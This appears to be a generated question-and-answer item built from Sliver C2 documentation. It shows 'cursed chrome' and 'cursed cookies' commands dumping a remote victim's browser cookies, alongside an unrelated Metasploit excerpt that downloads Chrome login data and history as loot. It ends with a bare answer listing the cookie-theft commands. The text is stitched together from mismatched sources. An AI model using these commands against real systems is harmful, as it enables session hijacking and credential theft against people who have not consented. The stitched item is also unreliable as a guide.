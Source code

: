 Context:```
[server] sliver (CHRONIC_GOAT) > cursed chrome

...

[server] sliver (CHRONIC_GOAT) > cursed cookies

? Select a curse: 44199  [Session 56a5cd6f]  /Applications/Google Chrome.app/Contents/MacOS/Google Chrome

[*] Successfully dumped 437 cookies
[*] Saved to cookies-20220925182151.json

```
## Cursed Chrome
## Cursed Edge
## Cursed Electron
## Cursed Console
## Cursed Cookies
Starting in v1.5.28 the `cursed cookies` command can be used to dump a remote cursed process' cookies to a local file (newline delimited json), for example:
[-] Cookies not found
[+] Downloaded History to '/Users/user/.msf4/loot/20220422122126_default_192.168.123.151_chrome.raw.Histo_861946.txt'
[+] Downloaded Login Data to '/Users/user/.msf4/loot/20220422122126_default_192.168.123.151_chrome.raw.Login_785667.txt'

 Question: Provide only the commands to extract cookies using the cursed chrome and cursed cookies commands in Sliver. Exclude all explanations, output, and additional text.  
```
 Your response: 
 
```
[server] sliver (CHRONIC_GOAT) > cursed chrome
[server] sliver (CHRONIC_GOAT) > cursed cookies
```
